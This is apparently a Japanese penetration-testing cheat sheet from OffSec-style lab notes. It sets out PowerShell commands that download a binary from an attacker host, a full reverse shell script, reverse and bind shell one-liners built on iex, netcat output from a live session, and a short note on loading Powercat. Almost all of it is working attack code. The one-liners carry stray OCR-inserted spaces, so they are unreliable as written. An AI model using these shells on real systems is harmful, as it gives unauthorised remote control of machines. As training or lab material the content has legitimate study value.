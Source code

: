 ## PowerShell
### ファイルのダウンロード
```
C:\Users\offsec> powershell -c (New-Object Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe', 'wget.exe')
```

### reverse shell
```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

### ワンライナーreverse shell
```
C:\Users\offsec> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10. 11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.T ext.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII ).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$c lient.Close()"
```

### ワンライナーbind shell
```
C:\Users\offsec> powershell -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $clie nt.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $byt es.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString ($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$str eam.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Sto p()"

kali@kali:~$ nc -nv 10.11.0.22 443
(UNKNOWN) [10.11.0.22] 443 (https) open
ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
Connection-specific DNS Suffix . :
IPv4 Address. . . . . . . . . . . : 10.11.0.22
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 10.11.0.1
C:\Users\offsec>
```
## Powercat
PowercatはPowerShell版のNetcat。  
Dot-sourcingを使用して、powercat.ps1スクリプトをロードすることによりPowerShell内で直接powercat関数を使用可能になる。
```
PS C:\Users\Offsec> . .\powercat.ps1
```
攻撃対象となるマシンがインターネットに接続されている場合、githubからダウンロードさせることも可能。